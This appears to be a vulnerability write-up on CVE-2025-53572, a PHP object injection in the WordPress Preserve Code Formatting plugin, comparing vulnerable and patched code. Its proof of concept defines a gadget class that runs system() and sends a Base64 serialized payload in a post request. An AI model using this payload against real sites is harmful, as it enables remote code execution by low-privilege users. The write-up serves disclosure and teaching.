


<!--more-->

## CVE & Basic Info
The **Deserialization of Untrusted Data** vulnerability in Scott Reilly’s **Preserve Code Formatting** plugin (*preserve-code-formatting*) allows **Object Injection**. This issue affects **Preserve Code Formatting** versions from `n/a` up to `<= 4.0.1`.

* **CVE ID**: [CVE-2025-53572](https://www.cve.org/CVERecord?id=CVE-2025-53572)
* **Vulnerability Type**: PHP Object Injection
* **Affected Versions**: <= 4.0.1
* **Patched Versions**: 5.0
* **CVSS Severity**: High (8.8)
* **Required Privilege**: Contributor
* **Product**: [WordPress Preserve Code Formatting Plugin](https://wordpress.org/plugins/preserve-code-formatting/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** – **Preserve Code Formatting**:
    * `4.0.1` – **vulnerable**
    * `5.0` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any other diff tool.

## Cause
**In the vulnerable version (v4.0.1):**

```php {title="preserve-code-formatting.php v4.0.1"}
$data = unserialize( str_replace( $this->chunk_split_token, '', stripslashes( base64_decode( $match[2] ) ) ) );
```

In this code, the `unserialize()` function is executed directly on user-supplied input (`$match[2]` after Base64 decoding). This introduces a critical vulnerability:

- **Object Injection risk**: If an attacker injects a malicious serialized PHP object encoded in Base64, decoding and unserializing will instantiate the malicious object, leading to **Object Injection** and potentially **Remote Code Execution (RCE)**.
- **No validation**: There are no checks in place to validate the data before calling `unserialize()`.
- **No fallback mechanism**: If the data is malformed or fails to decode, the application does not handle errors safely, increasing exploitability.

**Patched version (v5.0):**


`unserialize()` was replaced with `json_decode()`:

```php {title="preserve-code-formatting.php v5.0"}
$decoded_data = str_replace( $this->chunk_split_token, '', stripslashes( base64_decode( $matches[2] ) ) );
if ( ! $this->is_content_safe( $decoded_data ) ) {
    return $matches[0];
}
$data = json_decode( $decoded_data, true );
if ( $data === null && json_last_error() !== JSON_ERROR_NONE ) {
    $data = $decoded_data;
}
```

Removing `unserialize()` completely eliminates the possibility of **PHP Object Injection**.

## Analysis

The plugin registers the following filter:

```php
add_filter( 'content_save_pre', array( $this, 'preserve_postprocess' ), 100 );
```

The `content_save_pre` hook is executed before a post’s content is written to the database. This makes it an ideal point to modify or filter content.

When triggered, the callback `preserve_postprocess` is executed:

```php {title="preserve-code-formatting.php v4.0.1" data-open=true hl_lines=[13,16,19]}
public function preserve_postprocess( $content, $preserve = false ) {
    $options                    = $this->get_options();
    $preserve_tags              = (array) $options['preserve_tags'];
    $wrap_multiline_code_in_pre = (bool)  $options['wrap_multiline_code_in_pre'];
    $result                     = '';

    foreach ( $preserve_tags as $tag ) {
        if ( $result ) {
            $content = $result;
            $result = '';
        }

        $codes = preg_split( "/(\\{\\!\\{{$tag}[^\\]]*\\}\\!\\}.*\\{\\!\\{\\/{$tag}\\}\\!\\})/Us", $content, -1, PREG_SPLIT_DELIM_CAPTURE );

        foreach ( $codes as $code ) {
            if ( preg_match( "/\\{\\!\\{({$tag}[^\\]]*)\\}\\!\\}(.*)\\{\\!\\{\\/{$tag}\\}\\!\\}/Us", $code, $match ) ) {
                // Note: base64_decode is only being used to decode user-supplied content of code tags which
                // had been encoded earlier in the filtering process to prevent modification by WP.
                $data = unserialize( str_replace( $this->chunk_split_token, '', stripslashes( base64_decode( $match[2] ) ) ) );
                if ( $preserve ) {
                    $data = $this->preserve_code_formatting( $data );
                }
                $code = "<{$match[1]}>$data</$tag>";
                if ( $preserve && $wrap_multiline_code_in_pre && ( 'pre' != $tag ) && preg_match( "/\n/", $data ) ) {
                    $code = '<pre>' . $code . '</pre>';
                }
            }
            $result .= $code;
        }
    }

    return $result;
}
```

Set a breakpoint at the beginning of `preserve_postprocess()` and create a new post:

```php {title="Post creation request" hl_lines=[]}
POST /wp-json/wp/v2/posts/129?_locale=user HTTP/1.1
Host: localhost
Cookie: wp-settings-time-3=1763365761; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=con%7C1763781752%7CrF6XPHmgOzitm7TUKbUcETuuvC9pvGNPsT8bVNxQqoq%7Ce8636ff63b4bdcb466fcd689a839fd0442c9a94b6124977d2dd911a0c0fbf0de; wp-settings-2=libraryContent%3Dbrowse; wp-settings-time-2=1763608953
...
{"id":129,"content":"<!-- wp:paragraph -->\n<p>Payload</p>\n<!-- /wp:paragraph -->","title":"Test","status":"pending"}
```



`$content` matches the value supplied in the `"content"` field.

```php
$codes = preg_split(
    "/(\{\!\{{$tag}[^\]]*\}\!\}.*\{\!\{\/{$tag}\}\!\})/Us",
    $content,
    -1,
    PREG_SPLIT_DELIM_CAPTURE
);
```

This regex locates the custom preserve tag blocks `{!{$tag}...}!}` and their matching closing tags. `PREG_SPLIT_DELIM_CAPTURE` ensures the matching blocks are preserved in the output array.



If `$tag` is `code` or `pre`, the preserve sections will be extracted; otherwise, the original content remains unchanged.

```php
if ( preg_match( "/\\{\\!\\{({$tag}[^\\]]*)\\}\\!\\}(.*)\\{\\!\\{\\/{$tag}\\}\\!\\}/Us", $code, $match ) ) { ... }
```

`preg_match()` checks for a preserve block within `$code`.  
`$match[1]` → tag or attributes  
`$match[2]` → block content


```php
$data = unserialize( str_replace( $this->chunk_split_token, '', stripslashes( base64_decode( $match[2] ) ) ) );
```

Finally, `$match[2]` is Base64 decoded, stripped, cleaned, and then passed into `unserialize()`.

> [!INFO]  
> As described in the CVE, exploitation requires **Contributor** privileges to create a post.

## Flow


graph TD

A["Contributor submits Post
(Content contains malicious Base64 payload)"]
    --> B["WordPress calls hook: content_save_pre"]

B --> C["Plugin callback: preserve_postprocess()"]

C --> D["Regex extracts preserve blocks"]

D --> E["match[2] = Base64 payload"]

E --> F["base64_decode()"]
F --> G["stripslashes()"]
G --> H["str_replace(chunk_split_token)"]

H --> I["unserialize() on user data (VULNERABLE)"]

I --> J[RCE]


## Proof of Concept (PoC)
1. Create a test class in `wp-config.php`:
```php
class Evil
{
    public $command = "ls /";
    public function __destruct()
    {
        die(system($this->command));
    }
}
```
2. Create a post and intercept the request using Burp Suite.
3. Resend the request with the `"content"` field containing the serialized and Base64-encoded payload:

```json
{"id":129,"content":"{!{code}!}Tzo0OiJFdmlsIjoxOntzOjc6ImNvbW1hbmQiO3M6NDoibHMgLyI7fQ=={!{/code}!}","title":"Test","status":"pending"}
```


# Conclusion
Versions `<= 4.0.1` of the Preserve Code Formatting plugin are critically vulnerable because `unserialize()` is called on unvalidated user input. With only Contributor privileges, an attacker can inject a malicious payload that is deserialized during post processing, leading to remote code execution or unauthorized system manipulation. The `v5.0` patch eliminates `unserialize()`, replaces it with `json_decode()`, and adds input validation, effectively neutralizing the Object Injection attack surface.

# Key Takeaways
- Using `unserialize()` on user-controlled data is fundamentally unsafe without strict validation.
- The `content_save_pre` hook exposes an attack surface because input is processed before sanitization.
- Contributor privileges are sufficient to exploit the issue in multi-user environments.
- The patch focuses on switching to safe data handling and applying content validation.
- Replacing `unserialize()` with safer mechanisms like JSON is the correct fix for WordPress plugins facing similar issues.

## References

[Deserialization](https://book.hacktricks.wiki/en/pentesting-web/deserialization/index.html)

[WordPress Preserve Code Formatting Plugin <= 4.0.1 is vulnerable to a high priority PHP Object Injection](https://patchstack.com/database/wordpress/plugin/preserve-code-formatting/vulnerability/wordpress-preserve-code-formatting-plugin-4-0-1-php-object-injection-vulnerability)

